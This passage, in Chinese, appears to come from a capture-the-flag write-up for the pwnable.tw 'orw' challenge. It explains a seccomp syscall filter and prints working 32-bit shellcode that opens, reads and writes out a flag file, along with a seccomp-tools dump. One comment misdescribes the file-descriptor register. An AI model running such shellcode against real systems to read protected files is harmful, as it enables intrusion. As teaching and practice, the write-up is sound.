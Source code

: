 这样的话常规的调用 system 函数、one_gadget 的用不了了，这里的设置点其实和 pwnable.tw 上 orw 那道题一样，只能进行几个系统调用：open、write、read。  
这里也就是调用下面的语句进行设置：  
  
`prctl(PR_SET_NO_NEW_PRIVS, 1LL...);`  
在 `include/linux/prctl.h `中找到` PR_SET_NO_NEW_PRIVS` 常量对应的数值，正好是 38，因此也就对应上了题目中的第一个 prctl 语句。  
  
因此在`orw_seccomp`方法限制之下，不能用system(/bin/sh)或者execve(/bin/sh)了  
想要获取flag只能进行如下操作  
```c  
fd = open("flag")  
read(fd, buf, 0x30)  
write(1, buf, 0x30)  
```  
这段代码对应的汇编是这样的：  
```shell  
> push 1;  
> dec byte ptr [esp];    先将1入栈后在用dec指令减1，得到0作为指针数组的第二个元素  
> push 0x67616c66; 再将“flag”入栈作为指针数组的第一个元素  
> mov ebx,esp;   ebx指向栈顶也就是指向 open函数的第一个参数（指针数组）  
> xor ecx,ecx;     xor清零ecx对应第二个参数  
> xor edx,edx;   xor清零edx对应第三个参数  
> xor eax,eax;   xor清零eax  
> mov al,0x5;   向eax传入系统调用号0x05  
> int 0x80;    调用fp=open("flag",0)  
  
> mov ebx,eax;    ebx被赋值为0x05，read(fp,buf,0x30)  
> xor eax,eax;    xor清空eax  
> mov al,0x3;   传入read函数对应的系统调用号  
> mov ecx,esp;   将栈顶的地址传给ecx作为read的第二个参数，将flag文件中的内容入栈  
> mov dl,0x30;  read的第三个参数，读0x30个字符  
> int 0x80;     调用read(fp,buf,0x30)  
  
> mov al,0x4;   write函数的系统调用号，write(1,buf,0x30)   
> mov bl,1;   ebx对应第一个参数  
> mov dl,0x30;  edx对应第三个参数   
> int 0x80;   调用write(1,buf,0x30)  
```  
实际上`seccomp`(全称：secure computing mode)，将进程可用的系统调用限制为四种：read，write，_exit，sigreturn。最初的这种模式是白名单方式，在这种安全模式下，除了已打开的文件描述符和允许的四种系统调用，如果尝试其他系统调用，内核就会使用SIGKILL或SIGSYS终止该进程。  
  
可以使用`seccomp-tools`来查看可以使用的系统调用。  
  
```shell  
# seccomp-tools dump ./orw.bin  
 line  CODE  JT   JF      K  
=================================  
 0000: 0x20 0x00 0x00 0x00000004  A = arch  
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011  
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number  
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011  
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011  
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011  
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011  
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011  
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011  
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011  
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)  
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW  
```  
  